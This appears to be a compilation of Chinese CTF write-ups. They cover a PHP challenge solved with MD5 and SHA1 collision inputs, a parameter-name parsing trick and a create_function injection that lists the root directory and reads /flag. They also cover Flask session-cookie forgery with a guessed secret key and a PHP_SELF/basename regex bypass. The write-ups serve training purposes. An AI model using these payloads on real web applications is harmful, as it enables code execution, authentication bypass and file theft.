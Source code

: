 ## levl up(md5绕过-sha1绕过-php非法字符绕过-creat-function绕过)
访问这个文件发现是强判断的md5的绕过 直接用md5碰撞  
使用exp  
`array1=psycho%0A%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00W%ADZ%AF%3C%8A%13V%B5%96%18m%A5%EA2%81_%FB%D9%24%22%2F%8F%D4D%A27vX%B8%08%D7m%2C%E0%D4LR%D7%FBo%10t%19%02%82%7D%7B%2B%9Bt%05%FFl%AE%8DE%F4%1F%84%3C%AE%01%0F%9B%12%D4%81%A5J%F9H%0FyE%2A%DC%2B%B1%B4%0F%DEcC%40%DA29%8B%C3%00%7F%8B_h%C6%D3%8Bd8%AF%85%7C%14w%06%C2%3AC%BC%0C%1B%FD%BB%98%CE%16%CE%B7%B6%3A%F3%99%B59%F9%FF%C2&array2=psycho%0A%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00W%ADZ%AF%3C%8A%13V%B5%96%18m%A5%EA2%81_%FB%D9%A4%22%2F%8F%D4D%A27vX%B8%08%D7m%2C%E0%D4LR%D7%FBo%10t%19%02%02%7E%7B%2B%9Bt%05%FFl%AE%8DE%F4%1F%04%3C%AE%01%0F%9B%12%D4%81%A5J%F9H%0FyE%2A%DC%2B%B1%B4%0F%DEc%C3%40%DA29%8B%C3%00%7F%8B_h%C6%D3%8Bd8%AF%85%7C%14w%06%C2%3AC%3C%0C%1B%FD%BB%98%CE%16%CE%B7%B6%3A%F3%9959%F9%FF%C2`

发现返回一个Level___3.php  
继续访问  
发现是一个sha1 绕过  
跟md5原理一样 sha1碰撞  
使用exp  
`array1=%25PDF-1.3%0A%25%E2%E3%CF%D3%0A%0A%0A1%200%20obj%0A%3C%3C/Width%202%200%20R/Height%203%200%20R/Type%204%200%20R/Subtype%205%200%20R/Filter%206%200%20R/ColorSpace%207%200%20R/Length%208%200%20R/BitsPerComponent%208%3E%3E%0Astream%0A%FF%D8%FF%FE%00%24SHA-1%20is%20dead%21%21%21%21%21%85/%EC%09%239u%9C9%B1%A1%C6%3CL%97%E1%FF%FE%01%7FF%DC%93%A6%B6%7E%01%3B%02%9A%AA%1D%B2V%0BE%CAg%D6%88%C7%F8K%8CLy%1F%E0%2B%3D%F6%14%F8m%B1i%09%01%C5kE%C1S%0A%FE%DF%B7%608%E9rr/%E7%ADr%8F%0EI%04%E0F%C20W%0F%E9%D4%13%98%AB%E1.%F5%BC%94%2B%E35B%A4%80-%98%B5%D7%0F%2A3.%C3%7F%AC5%14%E7M%DC%0F%2C%C1%A8t%CD%0Cx0Z%21Vda0%97%89%60k%D0%BF%3F%98%CD%A8%04F%29%A1&array2=%25PDF-1.3%0A%25%E2%E3%CF%D3%0A%0A%0A1%200%20obj%0A%3C%3C/Width%202%200%20R/Height%203%200%20R/Type%204%200%20R/Subtype%205%200%20R/Filter%206%200%20R/ColorSpace%207%200%20R/Length%208%200%20R/BitsPerComponent%208%3E%3E%0Astream%0A%FF%D8%FF%FE%00%24SHA-1%20is%20dead%21%21%21%21%21%85/%EC%09%239u%9C9%B1%A1%C6%3CL%97%E1%FF%FE%01sF%DC%91f%B6%7E%11%8F%02%9A%B6%21%B2V%0F%F9%CAg%CC%A8%C7%F8%5B%A8Ly%03%0C%2B%3D%E2%18%F8m%B3%A9%09%01%D5%DFE%C1O%26%FE%DF%B3%DC8%E9j%C2/%E7%BDr%8F%0EE%BC%E0F%D2%3CW%0F%EB%14%13%98%BBU.%F5%A0%A8%2B%E31%FE%A4%807%B8%B5%D7%1F%0E3.%DF%93%AC5%00%EBM%DC%0D%EC%C1%A8dy%0Cx%2Cv%21V%60%DD0%97%91%D0k%D0%AF%3F%98%CD%A4%BCF%29%B1`

发现返回一个level_level_4.php  
继续访问  
一眼望过去是php的变量解析绕过, php会把请求参数中的非法字符转为下划线  
使用exp  
`NI+SA+=txw4ever`

发现返回一个55_5_55.php  
继续访问

通过下面的a(′′,a(′′,b) 猜到可能是 create_function绕过  
然后那个正则表达式 让第一个字符不能为字母数字下划线  
使用exp  
`a=\create_function&b=return 'mmkjhhsd';}var_dump(scandir('/'));/*`  
发现根目录下有一个flag文件  
然后  
`a=\create_function&b=return 'mmkjhhsd';}var_dump(file_get_contents('/flag'));/*`  
获取到flag





## 2023LitCTF
# LitCTF2023-Flag点击就送-wp

_188_

[题目链接](https://www.nssctf.cn/problem/3872)

题目提示：`大型Flag赠送活动开始啦，不过只有管理员才能拿到`

进入页面，发现

- `/hello` post name=xxx （直接发admin不行，尝试其他字符串都是直接不变输出）
- `/flag`（拿flag按键跳转） 获取flag（仅admin可以）

发现上传name后有个session值，类似base64

[![m](https://github.com/Antel0p3/Antel0p3.github.io/blob/main/2023/08/19/LitCTF2023-flagclick-wp/0x1.png?raw=true)](https://github.com/Antel0p3/Antel0p3.github.io/blob/main/2023/08/19/LitCTF2023-flagclick-wp/0x1.png?raw=true "m")

解码后得到

|   |   |
|---|---|
|1|{"name":"a"}dàt@¸WÞ$ÊaÞ%mËv6ÙpD	# 前半部分是上传的name，后面应该是数据签名|

推测可能是 **flask session伪造**

再查看页面信息确实是flask

[![m](https://github.com/Antel0p3/Antel0p3.github.io/blob/main/2023/08/19/LitCTF2023-flagclick-wp/0x2.png?raw=true)](https://github.com/Antel0p3/Antel0p3.github.io/blob/main/2023/08/19/LitCTF2023-flagclick-wp/0x2.png?raw=true "m")

## [](https://antel0p3.github.io/2023/08/19/LitCTF2023-flagclick-wp/#session伪造 "session伪造")session伪造

工具 [https://github.com/noraj/flask-session-cookie-manager](https://github.com/noraj/flask-session-cookie-manager)

使用方法

|   |   |
|---|---|
|1  <br>2  <br>3  <br>4|python2 flask-session-cookie-manager2.py decode -c "session值" (-s "key值")  <br>python2 flask-session-cookie-manager2.py encode -s "key值" -t "我们需要伪造的值"  <br>python3 flask-session-cookie-manager3.py decode -c "session值" (-s "key值")  <br>python3 flask-session-cookie-manager3.py encode -s "key值" -t "我们需要伪造的值"|

伪造需要key，猜测为”LitCTF”

|   |   |
|---|---|
|1  <br>2|python3 flask-session-cookie-manager3.py encode -s 'LitCTF' -t '{"name":"admin"}'  <br># eyJuYW1lIjoiYWRtaW4ifQ.ZOBwTg.fCkX986VBbFDKMaipQ5QjHJAkQg|

此时再访问`/flag`，将当前页面cookie改为伪造的值，刷新页面即可看到flag



## 鹤城杯esayP
<?php
include 'utils.php';

if (isset($_POST['guess'])) {
    $guess = (string) $_POST['guess'];
    if ($guess === $secret) {
        $message = 'Congratulations! The flag is: ' . $flag;
    } else {
        $message = 'Wrong. Try Again';
    }
}

if (preg_match('/utils\.php\/*$/i', $_SERVER['PHP_SELF'])) {
    exit("hacker :)");
}

if (preg_match('/show_source/', $_SERVER['REQUEST_URI'])){
    exit("hacker :)");
}

if (isset($_GET['show_source'])) {
    highlight_file(basename($_SERVER['PHP_SELF']));
    exit();
}else{
    show_source(__FILE__);
}
?> 

![复制代码](https://common.cnblogs.com/images/copycode.gif)

 这个题目出现了$_SERVER['PHP_SELF']

这个是你调用的脚本的路径

比如说这个题目它的值就是/index.php

如果你访问的是

http://1.14.71.254:28189/index.php/utils.php

那么它的值就会是/index.php/utils.php

而$_SEVER['REQUEST_URL']

它的值这个时候和$_SERVER['PHP_SELF']的值是一样的，

区别在于，如果你用get传参的时候$_SEVER['REQUEST_URL']是会加上那个参数的，而$_SERVER['PHP_SELF']不会。

然后是basename这个函数。

这个函数是返回最后面一个/后面的名字。

![](https://img2022.cnblogs.com/blog/2632699/202207/2632699-20220702200859891-2091543066.png)

这个函数有一个可以利用的地方就是，如果传入的参数中出现了非ascii字符则会把它给丢弃。

最后是讲绕过正则

if (preg_match('/show_source/', $_SERVER['REQUEST_URI'])){
    exit("hacker :)");
}

 这个正则的绕过方法就是利用特性来绕过，可以用

　[

  (空格)

 + 　

 .

上面那几个字符任何一个都行，都可以被处理成_

if (preg_match('/utils\.php\/*$/i', $_SERVER['PHP_SELF'])) {
    exit("hacker :)");
}

这个正则是匹配末尾有没有utils.php/

绕过办法很简单

因为后面要调用basename，所以可以利用中文来绕过，中文不属于ascii编码中的，所以可以payload

![](https://img2022.cnblogs.com/blog/2632699/202207/2632699-20220702201714242-1300132355.png)